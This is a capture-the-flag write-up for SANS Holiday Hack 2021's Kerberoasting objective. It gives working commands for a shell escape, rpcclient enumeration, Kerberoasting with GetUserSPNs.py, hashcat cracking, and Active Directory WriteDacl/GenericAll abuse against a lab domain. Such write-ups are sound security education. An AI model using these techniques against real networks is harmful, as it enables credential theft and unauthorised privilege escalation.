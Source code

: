 # OBJECTIVE 8 - Kerberoasting on an Open Fire #

## OBJECTIVE : ##
>Obtain the secret sleigh research document from a host on the Elf University domain. What is the first secret ingredient Santa urges each elf and reindeer to consider for a wonderful holiday season? Start by registering as a student on the [ElfU Portal](https://register.elfu.org/). Find Eve Snowshoes in Santa's office for hints..

#  

## HINTS: ##
<details>
  <summary>Hints provided for Objective 8</summary>
  
>-	Check out [Chris Davis' talk](https://www.youtube.com/watch?v=iMh8FTzepU4) and [scripts](https://github.com/chrisjd20/hhc21_powershell_snippets) on Kerberoasting and Active Directory permissions abuse.
>-	Learn about [Kerberoasting](https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a) to leverage domain credentials to get usernames and crackable hashes for service accounts.
>-	There will be some `10.X.X.X` networks in your routing tables that may be interesting. Also, consider adding `-PS22,445` to your `nmap` scans to "fix" default probing for unprivileged scans.
>-	[OneRuleToRuleThemAll.rule](https://github.com/NotSoSecure/password_cracking_rules) is great for mangling when a password dictionary isn't enough.
>-	[CeWL](https://github.com/digininja/CeWL) can generate some great wordlists from website, but it will ignore digits in terms by default.
>-	Administrators often store credentials in scripts. These can be coopted by an attacker for other purposes!
>-	Investigating Active Directory errors is harder without [Bloodhound](https://github.com/BloodHoundAD/BloodHound), but there are [native](https://social.technet.microsoft.com/Forums/en-US/df3bfd33-c070-4a9c-be98-c4da6e591a0a/forum-faq-using-powershell-to-assign-permissions-on-active-directory-objects?forum=winserverpowershell) [methods](https://www.specterops.io/assets/resources/an_ace_up_the_sleeve.pdf).

</details>

#  

## PROCEDURE : ##

We start off this one by registering at the [elfu registration portal](https://register.elfu.org/) and we are given a username, password and server address and instructed to `ssh` to it on port `2222`.  We are then met by a menu screen which only accepts `1` or `e` as keyboard inputs.  `1` brings up a list of grades and `e` exits the program any other keypress doesn’t appear to do anything.

After hours and hours and hours of trying different combinations, I discovered that `Ctrl+D` exits to a Python prompt – well I wish I’d tried that earlier!

From the Python prompt I was able to run the following commands to exit to a bash prompt:
```python
>>> import subprocess
>>> out, err = subprocess.Popen(['bash', '-l'], env={}).communicate()
```

Now that I’ve broken out into a bash prompt,  I looked around (following the suggestions in the hint) and noticed that the routing table includes routes to another three networks; `10.128.1.0/24`, `10.128.2.0/24` and `10.128.3.0/24`.  The `172.17.0.0/16` network is the one we’re on.
I also have a look at the ARP table and find four hosts on it which are on the same network as I am.  I ran a `nmap` scan towards each of these four IPs and `172.17.0.4` attracted my attention due to the number of open ports it had including LDAP, SMB and RPC.
![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2021/assets/60655500/2a1040a6-442e-4343-ae6b-fc3c5422c845)

Using `rpcclient`, I was able to connect to `172.17.0.4` with the same credentials provided by the Elf-U registration page
![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2021/assets/60655500/535ce633-9add-4d14-b6b0-736254065460)

At this point I Googled some ways of enumerating a server using `rpcclient` and I was able to get some interesting information.

By running ``rpcclient $> enumdomusers`` we get a list of users on the domain which include a number of particularly interesting ones:
-  ``user: [test] rid:[0x60f]``
- ``user:[Administrator] rid: [0x1f4]``
-  ``user:[admin] rid:[0x3e8]``
- ``user:[elfu_admin] rid[0x450]``
-  ``user:[elfu_svc] rid:[0x451]``
-  ``user:[remote_elf] rid:[0x452]``

I could also run ``rpcclient $> enumdomgroups`` to get a list of domain groups
![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2021/assets/60655500/3874ac46-5c04-4431-a253-5001eb455c5f)

and ``rpcclient $> get dompwinfo`` to find out what kind of password requirements are enforced on the domain.  From this I learned that the domain requires a **minimum password length of 7 characters**.  Something tells me this might be useful later on in this challenge...

![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2021/assets/60655500/72cfd07c-b4f6-4a24-b1da-0e1f2be9a068)

Running `nmap` towards the `10.x.x.x` networks with the `-PS22,445` switch as suggested in the hint gives us two hosts that are particularly interesting: `10.128.3.30` and `10.128.1.53`.  The latter’s hostname is `hhc21-windows-dc.c.holidayhack2021.internal` and by connecting to it using `rpcclient` and running ``rpcclient $> querydominfo``, I confirmed that the Server’s role is `ROLE_DOMAIN_PDC` – presumably that stands for **P**rimary **D**omain **C**ontroller.  Similarly, I was able to determine that `10.128.3.30` is the BDC – **B**ackup **D**omain **C**ontroller.

![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2021/assets/60655500/13e71f00-3f20-4403-b767-931b5fc6f2e8)

Now that I found the domain controller, I should be able to use [Kerberoasting](https://attack.mitre.org/techniques/T1558/003/) to get a password hash.  I start by uploading the script `GetUserSPNs.py`[^1]  using `scp`:
```python
> Scp -P 2222 GetUserSPNs.py username@grades.elfu.org:
```

I can now run the script on the `grades.elfu.org` machine which is directly connected to the ELFU domain and I can use my own credentials for this:
```console
$ Python3 GetUserSPNs.py -outputfile spns.txt -dc-ip 10.128.1.53 elfu.local/username:'Password!' -request
```

Once the script ran, I got a text file; `spns.txt` which contains a hash for user `elfu_svc` and I could copy this back to my  local machine using `scp` once again:
```python
> Scp -P 2222 username@grades.elfu.org:/home/username/spns.txt spns.txt
```

For the next step I need to crack the hash using [Hashcat](https://hashcat.net/hashcat/).  For this I’ll need a suitable wordlist and a mangling ruleset.  The hints suggest using `Cewl` to generate the wordlist and `OneRuleToRuleThemAll.rule`[^2]  as a mangling rule.  From the enumeration I did earlier on the domain connected machines, I know that the domain password rules expect a password with a minimum length of 7 characters.  So, I can use `cewl` to scrape `https://register.elfu.org/register` for words of suitable length.  I also include the `–with-numbers` switch as recommended by the hints (by looking at the page source we see the names of karaoke groups which look a bit like potential passwords and include numbers in them).
![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2021/assets/60655500/4a478247-50e0-46d3-84ad-045b65308d12)
```console
$ cewl -m 7 -w custom_wordlist.txt –with-numbers https://register.elfu.org/register
```

Now I run `hashcat` with the generated wordlist:
```console
$ hashcat -m 13100 -a 0 spns.txt –potfile-disable -r OneRuleToRuleThemAll.rule –force -O -w 4 –opencl-device-types 1,2 custom_wordlist.txt
```

Once hashcat finishes cracking the hash I find out that the user `elfu_svc` has password `Snow2021!` 😊

I can use these new credentials now to connect to the BDC server and see what shares are available on it:
```console
$ rpcclient -U elfu_svc 10.128.3.30 -c netshareenum
```
![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2021/assets/60655500/91857eb5-5daa-4782-8e4e-2bf93b9ca39d)

I see that there are 4 shares available; `netlogon`, `sysvol`, `elfu_svc_shr` and `research_dep`.
I can access all of these apart from `research_dep`.   On the other hand, `elfu_svc_shr` is the only share I have access to that has any files on it.  
I can access this share and download all the files in a tar archive:
```console
$ smbclient -U elfu_svc //10.128.3.30/elfu_svc_shr
smb: \> tar c all.tar
```

Now I can untar the file and search through the contents[^3]:
```console
$ tar -xvf all.tar
$ grep -l remote_elf   
```

This pointed me to a PowerShell script file called `GetProcessInfo.ps1` (can’t believe it’s actually the exact same filename as in the tutorial video) which includes some kind of hash of `remote_elf`‘s password.  
![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2021/assets/60655500/a529a93a-250b-4fb0-9f1b-709b5dc708dc)

Looking through the script I can see that is actually using `remote_elf`’s credentials to connect to the DC and get the running processes.  I can therefore edit the same script using the hints provided [here](https://github.com/chrisjd20/hhc21_powershell_snippets#added-bonus-here-is-how-you-can-enter-pssession-into-a-remote-computer) to allow me to establish a PowerShell Session.  
![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2021/assets/60655500/e028cee7-b23c-4fb8-9a58-f6f2cd0ed613)

Now I hope (or expect, given the hints in this challenge so far) that `remote_elf` has been given `WriteDacl` rights to a group that is of interest to us.  After some trial-and-error I find that `remote_elf` does indeed have `WriteDacl` enabled for the group `Research Department`.  This is verified by running the following at the powershell prompt:
```powershell
$ADSI = [ADSI]"LDAP://CN=Research Department,CN=Users,DC=elfu,DC=local"
$ADSI.psbase.ObjectSecurity.GetAccessRules($true,$true,[Security.Principal.NTAccount])
```

And here we see that WriteDacl is enabled for `remote_elf`... excellent!
![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2021/assets/60655500/1a6df0c0-4ff4-48e2-9701-f30363b6f70f)

So now I can use `remote_elf`’s privileges to give `Generic All` access to our username provided by the `register.elfu.org` system.  For this I can use [this script](https://github.com/chrisjd20/hhc21_powershell_snippets#in-the-below-example-the-genericall-permission-for-the-chrisd-user-to-the-domain-admins-group-if-the-user-your-running-it-under-has-the-writedacl-permission-on-the-domain-admins-group).  The script runs with a number of errors, but when I [check permissions](https://github.com/chrisjd20/hhc21_powershell_snippets#you-can-read-the-dacl-of-an-ad-group-object-using) again I see that my user now has `GenericAll` rights.
![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2021/assets/60655500/3bb62529-b447-4609-b9a6-77cdde7b2606)

This means that I should now be able to add myself to the `ResearchDepartment` group.  To do this I run [this script](https://github.com/chrisjd20/hhc21_powershell_snippets#in-the-below-example-the-genericall-permission-for-the-chrisd-user-to-the-domain-admins-group-if-the-user-your-running-it-under-has-the-writedacl-permission-on-the-domain-admins-group ) and I can now verify that my user; `fmcygawtjd` has indeed been added to the `ResearchDepartment` group.
![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2021/assets/60655500/d94a8ea3-df2a-40b3-af4d-873fad5f01fa)

Now I am able to access `//10.128.3.30/research_dep` with my own username and password and there I (**FINALLY**) find a nice file waiting for me: [`SantaSecretToAWonderfulHolidaySeason.pdf`](Assets/SantasSecretToAWonderfulHolidaySeason.pdf).  It would have been nice if it had been a simple txt file I guess – but anyway – I can use `scp` to transfer the file to my PC. 

But `scp` gives me a *“TERM Environment Variable Not Set”* Error and helpfully suggests I use a bash shell on the remote pc.  So I switch to bash by running ``$ chsh -s /bin/bash`` then exiting back to the python prompt and calling up the bash prompt once again.  Now I was able to `scp` the document to my PC and open the pdf to find the Santa’s ingredient at the top of the list.

This was one super challenging Objective!  So many of the elements were completely new to me; rpcclient enumeration, working with AD, working with PowerShell, etc.. not to mention Kerberoasting!  But this is what keeps bringing me back to the HolidayHack Challenge year after year – the challenges are all challenging but achievable and it’s a great feeling when I get to accomplish each one 😊  
![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2021/assets/60655500/413e9a0a-61b1-4d36-9ef1-dc0e414c4adb)



[^1]:[https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py )
[^2]:[https://github.com/NotSoSecure/password_cracking_rules/blob/master/OneRuleToRuleThemAll.rule](https://github.com/NotSoSecure/password_cracking_rules/blob/master/OneRuleToRuleThemAll.rule)
[^3]:I finally looked for `remote_elf` after trying a whole bunch of other keywords and then decided to start looking for some of the usernames I had enumerated earlier.
